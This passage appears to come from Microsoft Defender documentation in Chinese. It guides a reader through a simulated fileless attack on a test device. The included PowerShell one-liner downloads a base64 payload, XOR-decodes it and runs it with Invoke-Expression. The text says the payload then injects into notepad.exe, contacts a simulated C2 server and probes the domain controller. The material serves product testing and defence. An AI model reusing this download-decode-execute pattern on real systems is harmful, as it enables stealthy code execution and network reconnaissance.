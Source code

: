    1. 设备使用 Windows 10版本 1903 或更高版本运行。

   1. 测试设备已加入测试域。

   1. [打开"Windows Defender 防病毒"。](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) 如果无法启用Windows Defender 防病毒，请参阅此[疑难解答主题](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)。

   1. 验证测试设备已载入[Microsoft Defender 终结点) 。 ](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

如果使用现有租户并实施设备组，请为测试设备创建专用设备组，并推送到配置 UX 中的顶层。

## <a name="run-the-attack-scenario-simulation"></a>运行攻击方案模拟

运行攻击方案模拟：

1. 使用测试用户帐户登录到测试设备。

2. 在测试Windows PowerShell打开一个"打开"窗口。

3. 复制以下模拟脚本：

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > 如果在 Web 浏览器中打开此文档，则可能无法复制全文而不丢失某些字符或引入额外的换行符。 下载此文档，在 Adobe Reader 上打开它。

4. 在提示符下，粘贴并运行复制的脚本。

> [!NOTE]
> 如果使用远程桌面协议 (RDP) 运行 PowerShell，请使用 RDP 客户端中的"键入剪贴板文本"命令，因为 **CTRL-V** 热键或右键单击粘贴方法可能不起作用。 PowerShell 的最新版本有时也不接受该方法，您可能首先必须复制到内存中的 记事本，将其复制到虚拟机中，然后将其粘贴到 PowerShell 中。

几秒钟后，notepad.exe<i>打开。</i> 模拟攻击代码将注入到notepad.exe。 将自动生成的记事本实例保持打开状态，以体验完整方案。

模拟攻击代码将尝试与外部 IP 地址通信 (模拟 C2 服务器) 然后尝试通过 SMB 重新对域控制器进行重新连接。

此脚本完成后，你将看到 PowerShell 控制台上显示的消息。

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

To see the Automated Incident and Response feature in action， keep the notepad.exe process open. 你将看到自动事件和响应停止记事本进程。

## <a name="investigate-an-incident"></a>调查事件
